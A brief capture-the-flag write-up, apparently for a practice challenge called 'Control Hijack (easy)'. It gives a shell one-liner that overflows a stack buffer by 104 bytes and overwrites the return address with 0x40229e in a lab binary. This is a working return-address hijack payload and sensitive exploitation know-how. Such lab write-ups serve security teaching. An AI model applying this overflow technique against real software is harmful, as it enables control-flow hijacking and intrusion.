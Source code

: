 # Control Hijack (easy)

As told in the debug output, the return address is stored 104 bytes from input buffer and has to be changed to 0x40229e

```shell
echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x9e\x22\x40\x00\x00\x00\x00\x00" | /challenge/binary-exploitation-control-hijack-w
```
